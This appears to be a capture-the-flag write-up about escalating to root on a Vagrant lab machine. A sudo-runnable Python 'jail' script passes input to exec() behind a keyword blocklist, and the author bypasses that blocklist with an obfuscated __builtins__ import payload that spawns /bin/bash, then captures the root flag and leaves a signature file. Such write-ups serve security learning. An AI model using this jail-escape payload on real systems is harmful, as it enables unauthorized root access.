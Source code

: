 1) I see all sudo privilege:
```
kamishiro@vagrant:~$ sudo -l
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

2) I see the code of /home/kamishiro/jail.py:
```
kamishiro@vagrant:~$ cat /home/kamishiro/jail.py
```
```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

3) The vulnerability come from the exec() function, to exploit this function I read the documentation from this site "[Escaping Python Jails. Getting user input and executing it is… | by Aneesh Dogra | Aneesh Dogra’s Blog](https://anee.me/escaping-python-jails-849c65cf306e)"
4) Now I spawn the root shell:
```
kamishiro@vagrant:~$ sudo -l
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash') 
root@vagrant:~# cat /root/root.txt
9d790bb87898ca66f724ab05a9e6000b
```
5) root.txt :
```
9d790bb87898ca66f724ab05a9e6000b
```

---
## Patch the machine vulnerabilities

1) I remove the file that generate the privilege escalation:
```
root@vagrant:~# rm /home/kamishiro/jail.py
```
2) I leave my signature:
```
root@vagrant:~# touch README.txt
root@vagrant:~# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
root@vagrant:~#  cat README.txt
CyberSpider  has been here, Now I am root :)
root@vagrant:~# chmod a=+r-x-w README.txt
root@vagrant:~# ls -all
total 20
drwxr-xr-x 2 root root 4096 Feb 14 21:46 .
drwxr-xr-x 4 root root 4096 Jan 23  2021 ..
-rw------- 1 root root   18 Feb 14 21:34 .bash_history
-r--r--r-- 1 root root   45 Feb 14 21:46 README.txt
-rw-r--r-- 1 root root   33 Jan 23  2021 user.txt
root@vagrant:~# 
```
